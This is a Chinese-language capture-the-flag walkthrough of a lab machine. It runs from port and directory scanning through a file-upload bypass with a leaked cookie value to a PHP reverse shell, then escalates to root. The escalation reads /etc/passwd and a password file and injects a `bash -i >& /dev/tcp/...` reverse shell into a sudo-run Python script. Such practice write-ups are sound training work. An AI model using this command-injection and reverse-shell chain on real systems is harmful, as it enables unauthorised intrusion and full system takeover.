# 服务扫描

## 使用 nmap 进行基础扫描

扫描所执行的命令，执行结果如下

```bash
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80 10.10.10.31 

sudo nmap --script=vuln -p22,80 10.10.10.31 
```


## gobuster 爆破目录

在漏洞扫描中发现了许多目录，因此进行更详细的目录爆破

```bash
sudo gobuster dir -u http://10.10.10.31 -w /usr/share/wordlists/dirb/common.txt -x php,php.bak,jsp.zip,html
```



# Web 渗透

## 页面分析

这是 80端口 的页面


dashborard 界面像是一个文件上次的界面，可能存在 **文件上传** 漏洞



ajax.bak 是备份文件，curl 下载看看

```bash
curl http://10.10.10.31/ajax.php.bak
```



审计源码，文件上传的时候当 **cookie** 名为 **admin** ， 值为**&G6u@B6uDXMq&Ms** 同时 POST 名为 **secure** ，值为 **val1d** 的时候可以上传 pdf、php、txt 文件，否则只能上传 txt 文件
（注释说 cookie 末尾要加一个大写字母）

其他的都是文件目录



打开 main.js 可以看到 js 源码



审计源码提示我们存在 **文件上传** ，应该就是 dashboard 界面

使用 kali 自带的 php 反弹 shell，目录在 **/usr/share/webshells**

抓包上传，添加要求的 cookie 和 POST



因为 cookie 末尾还要加一个未知的大写字母，所以爆破一下





发现为 R 是 响应 1，正确字母为 R



加上放行


上传成功，用更大的字典目录爆破以下查找上传到的文件夹

```bash
sudo gobuster dir -u http://10.10.10.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```





nc 监听启动 shell



# Linux 提权

切换更好的 bash 交互界面

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```



passwd 有可读权限，查看拥有 bash 环境的用户

```bash
ls -liah /etc/passwd

cat /etc/passwd | grep "/bin/bash"
```



```bash
cd ../../../../../home/athena

ls

cat user.txt

cat password-reminder.txt
```



拿到密码，切换用户，查看 sudo -l 权限

```bash
su athena

myvulnerableapp*

sudo -l
```



可以免 root 使用 python3 执行 cookie-gen.py，查看 cookie-gen.py 文件

```bash
ls -liah /home/team-tasks/cookie-gen.py

cat /home/team-tasks/cookie-gen.py
```



审计源码 发现可以拼接字符串执行命令

```bash
sudo python3 /home/team-tasks/cookie-gen.py

aaa&bash -c 'bash -i >& /dev/tcp/10.10.10.5/2348 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.10.5/2348 0>&1'
```



拿下机器